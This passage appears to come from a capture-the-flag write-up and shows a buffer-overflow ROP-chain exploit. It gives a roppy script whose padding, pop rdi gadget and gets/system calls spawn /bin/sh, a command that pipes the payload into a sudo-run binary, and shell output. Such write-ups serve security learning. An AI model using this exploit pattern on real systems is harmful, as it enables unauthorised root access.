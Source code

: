 {% tab title="Final tests" %}
Let's run the exploit locally on Kali:

```python
└─$ python3 xpl.py
[+] Starting program '': PID 53660
[*] ELF: ...
[*] Switching to interactive mode
...
$ echo hola
hola
[*] Got EOF while reading in interactive
$  
```

Great, it works on our Kali host since we could issue a command but we don't have roppy on the victim machine. Instead, we can write the ROP chain to a file and transfer it to the victim machine.

```
$ (cat xploit.txt; cat -) | sudo /usr/local/bin/binary-file
```

And then give the string `/bin/sh` and let the chain call the `system("/bin/sh")`:

```python
from roppy import *

elf = ELF("binary-file")
pop_rdi = 0x4012e3
payload = b"A"*264
payload += p64(pop_rdi)
payload += p64(0x404050 + 0x400)
payload += p64(elf.plt['gets'])

payload += p64(pop_rdi)
payload += p64(0x404450)
payload += p64(elf.plt['system'])

f = open("xploit.txt", "wb")
f.write(payload)
f.close()
```

This will write the ROP chain to the file called `xploit.txt`.&#x20;

We run it on our Kali and get xploit.txt file:

{% code overflow="wrap" %}
```python
└─$ python3 xpl.py
[*] ELF: ...

└─$ cat xploit.txt 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@PD@p@@PD@@@
```
{% endcode %}
